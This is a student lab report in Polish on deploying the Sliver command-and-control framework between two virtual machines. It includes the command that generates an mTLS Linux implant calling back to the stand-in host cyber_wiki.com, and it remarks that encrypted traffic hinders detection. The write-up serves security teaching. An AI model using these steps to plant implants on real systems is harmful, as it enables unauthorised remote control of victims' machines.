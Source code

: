# Dokumentacja z laboratorium 5 z przedmiotu BOT

<center>Laboratorium numer 5</center>

<center> Michał Wawrzyńczak, Paweł Gryka</center>
<center>08.06.2022</center>
[Sliver v1.5.15](https://github.com/BishopFox/sliver/releases/tag/v1.5.15)

[TOC]

## Środowisko testowe:
### Server C2
Jako serwer C2 wykorzystaliśmy maszynę wirtualną Kali Linux z zainstalowanymi wszystkimi wymaganymi narzędziami (metasploit oraz MinGW). Pobraliśmy i uruchomiliśmy na nim serwer linux z frameworku [Sliver v1.5.15](https://github.com/BishopFox/sliver/releases/tag/v1.5.15)

### Ofiara
Maszyna wirtualna Ubuntu 20, znajdowała się w tej samej podsieci co serwer C2. Dodatkowo ustawiliśmy na niej w pliku `hosts` rozwiązywanie nazwy `cyber_wiki.com` na adres serwera C2


## Generowanie przykładowego payloadu
Na serwerze C2 uruchomiliśmy pobrany plik `sliver-server_linux` a następnie wykorzystując polecenie `generate --mtls cyber_wiki.com --save ~/Desktop/sliver --os linux` wygenerowaliśmy domyślny payload dla hostów z systemem operacyjnym linux, który uruchamia komunikację z serwerem wykorzystując protokół `mTLS`
![](https://i.imgur.com/13yfotN.png)


## Uruchomienie i obserwacje 
Na serwerze C2 uruchomiliśmy `mTLS listner`, a następnie umieściliśmy i uruchomiliśmy wygenerowany implant na hoscie ofiary. 
![](https://i.imgur.com/6vCEGOX.png)

W trakcie łączenia się ofiary do serwera obserwowaliśmy przesyłany ruch wykorzystując Wireshark'a. Użycie implantu mtls powoduje przesyłanie całej komunikacji C2 w sposób zaszyfrowany, oraz zapewnia wzajemną uwierzytelnienie ofiary z serwerem. Utrudnia to w znacznym stopniu próby detekcji i analizy.
![](https://i.imgur.com/NIBBBLx.png)


### Możliwości framework'u
- Sliver udostępnia wiele poleceń umożliwiających generowanie różnego typu implantów z szeregiem dodatkowych opcji. Sliver umożliwia zarządzanie aktywnymi sesjami, uruchamianie nasłuchiwania nowych uruchomionych implantów. Dodatkowo w Silverze możliwy jest tryb multiplayer, który pozwala na zarządzanie serwerem przez kilku podłączonych użytkowników.
```
Commands:
=========
  clear       clear the screen
  exit        exit the shell
  help        use 'help [command]' for command help
  monitor     Monitor threat intel platforms for Sliver implants
  wg-config   Generate a new WireGuard client config
  wg-portfwd  List ports forwarded by the WireGuard tun interface
  wg-socks    List socks servers listening on the WireGuard tun interface


Generic:
========
```